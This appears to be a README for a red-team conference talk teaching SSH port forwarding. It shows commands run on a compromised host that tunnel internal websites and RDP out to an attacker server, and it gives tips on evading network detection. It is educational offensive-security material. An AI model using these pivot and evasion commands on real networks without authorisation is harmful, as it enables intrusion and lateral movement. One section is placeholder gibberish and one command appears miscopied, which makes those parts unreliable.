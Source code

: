 ![fenrir-desktop-bg](https://user-images.githubusercontent.com/8293038/133816238-7152221b-c37d-46ca-831d-ff636178f44f.png)

## SSH Tunnels: Creating Reverse Proxies and Evading Network Detection

This repo is supplemental material for my presentation for [Red Team Village](https://redteamvillage.io) during Hackerone's Hacktivitycon2021. If you have any questions or just want to talk get in touch with me:

- [Twitter](https://twitter.com/cwolff411)
- [Discord](https://discordapp.com/users/354713402733494283)
- [LinkedIn](https://linkedin.com/in/corywolff)
- Email me at yxakl5mae@relay.firefox.com

## Abstract
SSH tunneling is a valuable component of the red teamer's toolkit when used correctly - but that's the hard part. Demystifying reverse port forwards, local port forwards, and dynamic port forwards can be a challenge for any operator. This talk will begin with the basics of SSH tunneling and then focus on ways to utilize them to create reverse proxies and evade network monitoring during an engagement. It aims to provide clarity on the use of these different port forwards and provide examples on how to use them in an offensive security scenario.

## Things to Know
Everything in this discussion is based around post-exploitation scenarios, meaning that you have already landed on a machine, escalated privileges, and are looking to move throughout the network.

### Gateway Ports
In order to access the open ports on your attack server which are then forwarded through SSH on your compromised host, you must enable Gateway Ports in the attack servers `sshd_config`. By default, SSH will only allow connections to the loopback interface on your attack server.

To enable Gateway Ports open `/etc/ssh/sshd_config` and look for the line that says `#GatewayPorts = no`. Remove the `#` and change it to yes. 

When complete, save the file and restart the SSH daemon. On Debian based systems:

`systemctl restart sshd`

## Dynamic Port Forwards
![RTV-SSH Tunnels-Dynamic Port Forward](https://user-images.githubusercontent.com/8293038/133801798-35120a05-e2cf-468c-89b7-3730d65c1a0f.png)

Opens a local port on the client. Any connections made to that port are routed through the SSH tunnel and exits on the server applicable server port depending on the application data. Good way to make a simple SOCKS proxy.

`ssh -D YOUR_LOCAL_PORT username@server`


## Local Port Forwards
![Red Team Village SSH Tunnels Local](https://user-images.githubusercontent.com/8293038/133802535-3488de3a-f2ca-4ab9-bed0-71694c090866.png)

Listens on a specified local port and forwards incoming data through SSH and out the specified remote port. Similar in nature to using a dynamic port forward, with the primary differences:
- Uses the -L flag
- With local port forwarding you can specify the remote port to be used. With dynamic port forwarding, this is handled by SSH

`ssh -L LOCAL_PORT:SELECTED_HOST:REMOTE_PORT`


## Remote Port Forwards
![Red Team Village SSH Tunnels Remote](https://user-images.githubusercontent.com/8293038/133802536-14b4f4df-e60e-4e0a-8a6f-6ddf9b29c118.png)

jkhkj

## Create Pivot Tunnels
![Red Team Village SSH Tunnel Pivot](https://user-images.githubusercontent.com/8293038/133802533-83e88f3a-dd2e-469e-80a4-74bfda580fec.png)

What if we wanted to connect to an internal host running RDP and we have credentials to log in? What if we wanted to browse internal websites? Can't use shell for GUI apps. Using a combination of a dynamic port forward and a remote port forward we can connect to our attack server and route traffic through the compromised host into the internal network.


![Red Team Village SSH Tunnel Close Up Look](https://user-images.githubusercontent.com/8293038/133802532-6270d38e-533e-4334-9e77-98b459cc371e.png)

First create a dynamic port forward on the localhost(compromised machine), then create a remote port forward using that same local port and the selected port on your attack server. You should then be able to set your proxy as your attack server and port, and traverse the internal network.

### Example: Browse Internal Websites

On the compromised host:
`ssh -D 80 -N -f username@localhost`
`ssh -R 54321:localhost:80 root@attack-server`

Using the `-N` and `-f` flags do two things. First the `-N` flag tells SSH that no commands will be sent in the session. Second, the `-f` flag tells SSH to drop to the background. This keeps our terminal clean and keeps us on the command line ready to setup our remote port forward.

You now have a proxy to use for internal port forwarding at `attack-server:54321`

Using proxychains or simply setting the proxy in your browser settings, you can now browse internal websites through your attack machine's browser.

### Example: Connect to Internal RDP Hosts

On the compromised host:
`ssh -D 3389 -N -f username@localhost`
`ssh -R 54321:localhost:80 root@attack-server`

This example is very similar to the previous example except this time you use port `3389` for RDP.

Add your attack server to `/etc/proxychains.conf`:

`socks5	attack-server	54321`

Then use proxychains with `xfreerdp` or your RDP client of choice and you can now connect to that internal host via RDP:

`proxychains xfreerdp /u:fenrir /p:password /v:HOST_IP`

## Evading Detection
Depending on the firewall and IDS/IPS in place, there are a few ways to avoid detection:

- First, try a non-traditional port like `443`. If the monitoring and firewall are basic setups, then simply using a port other than `22` will avoid detection.
- Setup an SSL tunnel to then route your SSH traffic through. SSH uses `encrypt-then-mac` whereas SSL uses `mac-then-encrypt`. Deep packet inspection will not be able to see that it's actually SSH traffic going over the wire. There are some caveats to this though, so make sure to check out the `stunnel` folder in this repo.
- When all else fails try IPv6. The transition to IPv6 has been slow and arduous. Many networks/firewalls/servers/etc support it, but the implementation is less than perfect. Everyone says they know how it all works, but they lie :)

## Fin
Thanks to [Red Team Village](https://redteamvillage.io) for having me during their Hacktivitycon event.

SSH tunnels are an excellent way to use living off the land binaries to pivot and move laterally throughout a network. It took me awhile to wrap my head around all of the options, so I hope this was helpful.

### More Info

- Check out everything you can do with SSH. It's more than just shell access. Read the [manual](https://linux.die.net/man/1/ssh).
- [sshuttle](https://github.com/sshuttle/sshuttle)